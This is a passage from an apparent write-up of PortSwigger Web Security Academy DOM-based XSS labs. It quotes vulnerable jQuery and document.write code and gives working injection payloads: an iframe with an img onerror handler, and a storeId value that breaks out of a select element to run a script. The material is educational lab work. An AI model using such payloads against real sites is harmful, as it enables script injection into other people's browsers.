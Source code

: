 ```html
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```


Final Payload on Exploit Server

```html
<iframe src="https://ac731ff41f11292cc003361300cd003f.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>'">
```

### Practitioner

#### DOM XSS in `document.write` sink using source `location.search` inside a select element
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element

Looking at a product listing, I notice some interesting source code

view-source:https://ac151fb61eae0f2bc00502da00f50042.web-security-academy.net/product?productId=1

```html
 <script>
    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
</script>
```

Payload

```
<url>/product?productId=1&storeId=</option></select><script>alert(1);</script>
```


#### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
